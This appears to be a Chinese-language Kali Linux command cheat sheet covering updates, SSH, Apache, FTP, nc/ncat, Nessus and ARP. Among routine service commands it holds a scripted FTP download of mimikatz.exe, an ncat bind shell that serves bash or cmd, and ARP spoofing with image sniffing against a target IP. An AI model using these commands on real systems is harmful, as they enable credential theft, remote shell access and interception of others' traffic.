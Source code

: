 # Kali 操作

## 更新升级

- apt-get update (更新软件包列表库)
- apt-get upgrade (更新安装的软件包)
- apt-get dist-upgrade (根据依赖关系更新)
- apt-get clean (清除缓存索引)
- reboot (重新启动)

## Kali 网络问题

- service network-manager stop
- rm /var/lib/NetworkManager/NetworkManager.state
- service network-manager start

## SSH

- service ssh start (开启 ssh 服务)
- service ssh restart (重启 ssh 服务)
- service ssh status (查看 ssh 状态)

## Apache

- service apache2 start (开启 Apache 服务)
- service apache2 restart (重启 Apache 服务)
- service apache2 status (查看 Apache 状态)
- 默认目录 /var/www/html
- 目录配置 /etc/apache2/sites-available/000-default.conf

## ftp

- service vsftpd start (开启 ftp 服务)
- service vsftpd restart (重启 ftp 服务)
- service vsftpd status (查看 ftp 状态)
- 文件目录 /home/ftp

```
echo open 192.168.253.130 21>ftp.txt
echo ftp>>ftp.txt
echo 123456>>ftp.txt
echo bin>>ftp.txt
echo get mimikatz.exe>>ftp.txt
echo bye>>ftp.txt
----------------
ftp -s:ftp.txt
```

## nc

- -h 显示帮助选项
- -l 绑定并监听传入连接
- -p 指定要使用的端口
- -c 通过/bin/sh 执行给定的命令
- -q 执行完毕 X 秒后退出
- -n 数字 ip,不通过 DNS 解析
- -v 显示详细信息
- -u 使用 UDP 模式
- -z 使用扫描模式

```
A：nc -lp 端口 | 解密方式 > 文件
B：加密方式 < a.mp4 | nc -nv IP地址 端口 -q 时间
```

## ncat

- --allow 只允许给定的主机连接到 Ncat
- --ssl 使用 SSL 连接或监听

```
A：ncat -c bash/cmd --allow IP 地址 -vnl 端口 --ssl
B：ncat -nv IP 地址 端口 --ssl
```

## Nessus

- service nessusd start (启动 Nessus)
- service nessusd status (查看 Nessus 状态)
- https://192.168.253.130:8834/

## ARP

- 路由转发: echo 1 > /proc/sys/net/ipv4/ip_forward
- arp 欺骗: arpspoof -i eth0（网卡） -t 192.168.0.144(目标 IP) 192.168.0.1（网关）
- 图片嗅探: driftnet -i eth0
- 